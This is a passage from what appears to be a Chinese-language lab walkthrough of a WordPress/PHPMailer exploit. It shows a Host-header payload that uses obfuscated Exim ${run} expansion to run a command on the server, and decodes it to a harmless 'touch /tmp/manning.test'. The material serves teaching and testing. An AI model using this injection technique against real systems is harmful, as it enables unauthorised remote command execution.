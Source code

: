 3.点击数据包，send Repeater 构造攻击payload发送攻击数据包

![wordpress](imgs/3.png)

构造payload：

	Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}manning.test}} null)

将`${substr{0}{1}{$spool_directory}}`和`${substr{10}{1}{$tod_log}}`进行替换，我们得到的payload是`Host: target(any -froot@localhost -be ${run{/usr/bin/touch /tmp/manning.test}} null)`，即在/tmp 目录下生产manning.test文件
